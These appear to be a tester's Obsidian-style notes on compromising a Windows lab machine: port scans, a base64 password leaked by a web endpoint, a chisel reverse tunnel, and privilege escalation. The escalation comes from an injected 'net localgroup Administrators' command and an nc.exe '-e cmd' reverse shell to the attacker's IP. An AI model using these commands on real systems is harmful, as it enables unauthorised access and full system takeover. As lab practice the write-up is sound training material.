 ### Enumeration
```
IP=192.168.247.99
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p21,22,80,135,139,445,3389,5040,7680,8089,33333,49665,49666,49667,49668,49669 -A $IP
```
### Ports 
- 21
	- FileZilla Server 0.9.60 beta
- 22
	- OpenSSH for_Windows_8.1 (protocol 2.0)
- 80
	- Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- 135
	- RPC
- 139
	- Microsoft Windows netbios-ssn
- 445
	- microsoft-ds
- 3389
	- ms-wbt-server Microsoft Terminal Services
- 5040
	- unknown
- 7680
	- pando-pub
- 8089
	- Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- 33333
	- Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- 49665
	- RPC
- 49666
	- RPC
- 49667
	- RPC
- 49668
	- RPC
- 49669
	- RPC
### Foothold
- 21
	- ftp anonymous@$IP
		- login failed
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
		- no password found
- RPC/ SMB
	- enum4linux -U $IP
		- nothing
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
		- not vulnerable
- 80
	- Default landing page
		- ![[Pasted image 20240712085358.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- can't connect
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 8089
	- Default landing page
		- ![[Pasted image 20240712090335.png]]
	- Versions
	- All buttons lead to http://169.254.129.94:33333/list-current-deployments?
	- Directory Brute force
		- dirsearch -u http://$IP
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 33333
	- Default landing page
		- ![[Pasted image 20240712090344.png]]
	- Tried using list-current-deployments  -  not found
		- Used burp and changed to POST
		- ![[Pasted image 20240712092052.png]]
		- Found this line
			- `cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh
			- crackstation did not find it
			- echo '' | base64 -d
				- NowiseSloopTheory139
				- Able to ssh into machine
	- Directory Brute force
		- dirsearch -u http://$IP
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
### PE
#### Windows
- ariah
	- whoami /all
		- SeShutdownPrivilege enabled
		- SeChangeNotifyPrivilege enabled
		- SeUndockPrivilege enabled
		- SeIncreaseWorkingSetPrivilege enabled
		- SeTimeZonePrivilege enabled
	- net user USERNAME
		- nothing
	- systeminfo
		- access denied
	- history
		- (Get-PSReadLineOption).HistorySavePath
			- type PATH
		- nothing
	- Users with console
		- Administrator
		- guest
		- ariah
		- defaultaccount
	- Unquoted
		- cmd
			- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
		- PS1
			- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
				- access denied
		- icacls Filepath before .exe
			- Looking for W or F
	- can login to ftp
		- infrastructure.pdf
			- requires password
			- ![[Pasted image 20240712094932.png]]
			- ariah4168
			- ![[Pasted image 20240712094959.png]]
			- Can send command by `Invoke-WebRequest 'http://nickel/?whoami' -UseBasicParsing`
	- Chisel setup
		- On A:sudo ./chisel server --reverse -v -p 1234
		- On B: chisel64.exe client -v A_IP:1234 R:socks
		- On A: Proxychains confg - socks5 	127.0.0.1 1080
	- Commands
		- ![[Pasted image 20240712134726.png]]
		- Command: net%20localgroup%20Administrators%20ariah%20%2Fadd
			- Adds our user to admin group
			- Then we can rdp in and run cmd as admin
		- Other
			- Move nc.exe to target
			- On A: nc -lvnp 443
			- `proxychains curl 'http://127.0.0.1:80?C%3A%5Ctemp%5Cnc.exe%20192.168.45.195%20443%20-e%20cmd'`
			- Gives us `nt authority\system
### Credentials
- ariah:NowiseSloopTheory139
### Lessons Learned
